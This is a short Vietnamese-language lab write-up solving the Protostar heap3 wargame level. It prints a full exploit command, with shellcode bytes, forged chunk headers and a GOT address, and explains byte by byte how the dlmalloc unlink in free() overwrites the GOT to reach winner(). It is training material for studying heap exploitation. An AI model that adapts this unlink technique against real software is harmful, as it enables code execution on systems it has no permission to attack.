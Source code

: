 ```py
user@protostar:/opt/protostar/bin$ ./heap3 `python -c 'print "A"*8 + "\x68\x64\x88\x04\x08\xC3"'` `python -c 'print "A"*28 + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "A"*4 + "\x1c\xb1\x04\x08" + "\x10\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1709237513
```
Giải thích:

- Đối với `a`:

  - 8 ký tự A tương ứng với 8 byte là 2 trường `fd` và `bk`, 8 byte này sẽ giữ cho shellcode không bị ghi đè khi gọi hàm `free(a)`
  - `\x68\x64\x88\x04\x08\xC3` đoạn shellcode gọi hàm `winner()`

- Đối với `b`:

  - 28 ký tự A (phần này ghi bất kỳ, miễn không xuất hiện null byte)
  - `\x01\x01\x01\x01` trường `prev_size` của next chunk (tại sao lại là next chunk thì mình sẽ giải thích ngay bên dưới)
  - `\xfc\xff\xff\xff` ghi đè lên `prev_size` và `size` của `c`. Khi tính toán với giá trị địa chỉ này sẽ gây ra hiện tượng tràn bit ( = -4) nên ta có thể dễ dàng kiểm soát, trong khi đó bit cuối cùng là 0 (previous chunk là free)  nên có thể consolidate back.

- Đối với `c`: đây chính là current chunk, do có trường `size` và `prev_size` là số âm nên địa chỉ của previous chunk sẽ là current chunk + 4, của next chunk là current chunk - 4

  - 4 ký tự A tương ứng với kích thước của previous chunk (phần này ghi gì cũng được, miễn là không có null byte)
  - `\x1c\xb1\x04\x08` = `0x0804b128 - 12` tương ứng với `fd` của previous chunk
  - `\x10\xc0\x04\x08` là địa chỉ của đoạn shellcode

- Kết luận: Khi gọi hàm `free(c)`, trình biên dịch sẽ kiểm tra previous chunk của chunk `c` có free hay không, trong trường hợp này là free, do đó thực hiện unlink đối với previous chunk này => địa chỉ shellcode được ghi vào vùng nhớ có địa chỉ `0x0804b128` => ghi đè GOT thành công.

![alt text](image-16.png)
